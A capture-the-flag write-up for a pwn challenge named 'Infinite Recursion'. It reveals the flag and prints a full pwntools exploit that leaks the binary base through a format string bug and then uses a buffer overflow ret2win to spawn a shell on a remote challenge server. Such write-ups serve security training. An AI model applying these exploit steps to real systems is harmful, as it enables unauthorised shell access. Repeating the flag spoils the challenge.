 # pwn - Infinite Recursion - Writeup

---  
![pic](pic/infinite_recursion.png)
## FLAG：
`THJCC{E$C4Pe_FRoM_TH3_InF!NI7E_r3CURS!on}`

## Observation：
- `fsb()` has a **format string** vulnerability that can **leak binary base address**.
- `bof()` has a **buffer overflow** vulnerability that can trigger **arbitrary execution**.
- `main()` has a `system("/bin/sh")` can be execute to get shell.

## Step：
1. When `"fsb> "` is received, use a format string vulnerability to print the 9th argument to obtain an address located near the binary base, and calculate it.
2. When `"bof> "` is received, apply **ret2win** attack to get shell.

## Exploit：  

```python
from pwn import *
from Crypto.Util.number import *
p = remote('23.146.248.230', 12355)
#p = process('./infinite_recursion')
r = p.recvline()
print(r)
while(True):
    mode = p.recvuntil(b'> ')
    if(mode == b'fsb> '):
        p.sendline(b'%9$p_')
        addr = p.recvuntil(b'_',drop=True)
        exe_base = int(addr, 16) - 0x12d9
        print(f'{hex(exe_base) = }')
        break
    else:
        p.sendline(b'AAA')

while(True):
    mode = p.recvuntil(b'> ')
    if(mode == b'bof> '):
        p.sendline(b'A'*16 + b'B'*8 + p64(exe_base+0x1366))
        p.interactive()
        break
    else:
        p.sendline(b'AAA')
        p.recvuntil(b'AAA',drop=True)
```

![pic](pic/flag.png)